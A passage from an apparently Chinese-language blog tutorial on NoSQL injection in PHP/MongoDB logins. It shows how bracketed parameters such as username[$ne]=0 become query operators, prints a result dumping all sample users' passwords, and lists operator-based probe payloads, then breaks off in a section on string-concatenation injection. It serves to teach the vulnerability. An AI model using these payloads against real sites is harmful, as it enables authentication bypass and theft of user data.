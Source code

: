 - 模拟登录 admin 用户 POST 数据
```a
username=admin&password=admin123
```
- 进入到 PHP 后数据变为
```php
array(
	'username' ='admin',
	'password' ='admin123'
)
```
- 进入 MongoDB 后执行的查询命令为
```sql
db.users.find({'username':'admin', 'password':'admin123'})

{ "_id" : ObjectId("61445fbaa7a3dc15f3ac9c91"), "username" : "admin", "password" : "admin123" }
```
- 从上面的查询代码中可以看出，对输入没有做任何的过滤与校验，这里可以通过 `$ne` 关键词来构造一个永真的条件绕过，从而来达到 Nosql 注入

```sql
usernmae[$ne]=0&password[$ne]=0
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/9c3d555dd73b457daa4d8bd3e4c5a226.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBASDNybWVzazF0,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

![在这里插入图片描述](https://img-blog.csdnimg.cn/88e42bdebe6d443b91405454ab7fc57c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBASDNybWVzazF0,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

- 其传入 MongoDB 之后执行的查询命令为

```sql
db.users.find({'username':{$ne:1}, 'password':{$ne:1}})

{ "_id" : ObjectId("61445fbaa7a3dc15f3ac9c91"), "username" : "admin", "password" : "admin123" }
{ "_id" : ObjectId("61445fd0a7a3dc15f3ac9c92"), "username" : "Gyan", "password" : "20080826" }
{ "_id" : ObjectId("61445fe1a7a3dc15f3ac9c93"), "username" : "guest", "password" : "guest" }
{ "_id" : ObjectId("61445fe7a7a3dc15f3ac9c94"), "username" : "demo", "password" : "demo" }
{ "_id" : ObjectId("61445ff9a7a3dc15f3ac9c95"), "username" : "Tom", "password" : "123456" }
```

- 由于 users 集合中 username 和 password 都不等于 1，所以会将所有的文档数据都查询出来
- 从 PHP 角度来看，由于其自身松散的数组特性，导致发送 `value[$ne]=1` 的数据后，PHP 会将其转换为数组 `value=array($ne=>1)`，进入 mongoDB 后，之前单一的 `{'value':1}` 查询就变成了 `{'value':{$ne:1}}` 查询

- 类似的 Payload，常用来验证网站是否存在 Nosql 注入的第一步
```sql
username[$ne]=0&password[$ne]=0
username[$lt]=0&password[$lt]=0
username[$lte]=0&password[$lte]=0
username[$gt]=0&password[$gt]=0
username[$gte]=0&password[$gte]=0
```
## 联合查询注入
- 在 MongoDB 之类的流行数据库存储中，JSON 查询结构使得联合查询注入攻击变得更加复杂，但是当后端的 MongoDB 查询语句使用了字符串拼接时，Nosql 已经存在联合查询注入的问题

```sql
string query = "{username:'" + $username + "', password:'" + $password + "'}"
```
- 当输入正确的用户名和密码进行登录时，查询语句是
